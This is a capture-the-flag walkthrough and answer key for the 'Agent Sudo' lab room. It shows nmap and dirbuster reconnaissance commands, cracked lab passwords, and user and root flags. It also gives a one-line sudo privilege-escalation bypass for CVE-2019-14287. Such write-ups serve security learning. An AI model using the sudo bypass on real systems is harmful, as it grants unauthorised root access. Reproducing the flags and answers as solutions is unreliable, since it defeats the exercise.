




# 🕵️‍♂️ Agent Sudo - 14 June 2k25

<div align="center">
    
</div>
</div>
<div align="center">
    
</div>

---

## 🚩 Table of Contents

1. [🕵️ Reconnaissance - Task 1](#reconnaissance--enumerate---task-1)
2. [📂 Hash Cracking & Brute-Force - Task 2](#hash-cracking--brute-force-task---2)
3. [🏁 Capture the User Flag - Task 3](#capture-the-user-flag-task---3)
4. [⬆️ Privilege Escalation - Task 4](#privilege-escalation-task---4)
5. [🎉 Happy Hacking](#happy-hacking)

---

# 🕵️ Reconnaissance/ Enumerate  - Task 1

> **Username:** `chris`  
> **Login:** `chris`  
> **Password:** `crystal`

---

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.5.56
```

<p align="center">
  
</p>

---

## 📂 Directory Scan (Dirbuster)

**Command:**
```bash
dirbuster -u http://10.10.199.108/content/ -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

<p align="center">
  
</p>

---

## ❓ Questions and Answers

| #  | Question                                   | Answer                  |
|----|--------------------------------------------|-------------------------|
| 1  | How many open ports?                       | `3`                     |
| 2  | How do you redirect yourself to a secret page? | `user-agent`        |
| 3  | What is the agent name?                    | `chris`                 |

---

## 🔑 Hash Cracking & Brute-Force Task - 2

| #  | Question                        | Answer           |
|----|---------------------------------|------------------|
| 4  | FTP password                    | `crystal`        |
| 5  | Zip file password               | `alien`          |
| 6  | Steg password                   | `Area51`         |
| 7  | Who is the other agent (full name)? | `james`      |
| 8  | SSH password                    | `hackerrules!`   |

---

## 🏁 Capture the User Flag Task - 3

<p align="center">
  
</p>

| #  | Question                         | Answer                              |
|----|----------------------------------|-------------------------------------|
| 9  | What is the user flag?           | `b03d975e8c92a7c04146cfa7a5a313c7`  |
| 10 | What is the incident of the photo called? |                                 |

---

## ⬆️ Privilege Escalation Task - 4

```bash
sudo -u#-1 /bin/bash
```

<p align="center">
  
</p>

| #   | Question                                      | Answer                  |
|-----|-----------------------------------------------|-------------------------|
| 11  | CVE number for the escalation (Format: CVE-xxxx-xxxx) | `CVE-2019-14287` |
| 12  | What is the root flag?                        | `b53a02f55b57d4439e3341834d70c062` |
| 13  | (Bonus) Who is Agent R?                       | `DesKel`                |

---

## 🎉 Happy Hacking!

> *“The quieter you become, the more you are able to hear.”*  
> — **Agent Sudo**

<p align="center">
    <a href="https://giphy.com/gifs/charlie-hunnam-gif-hunt-102h4wsmCG2s12">
        
    </a>
</p>

---
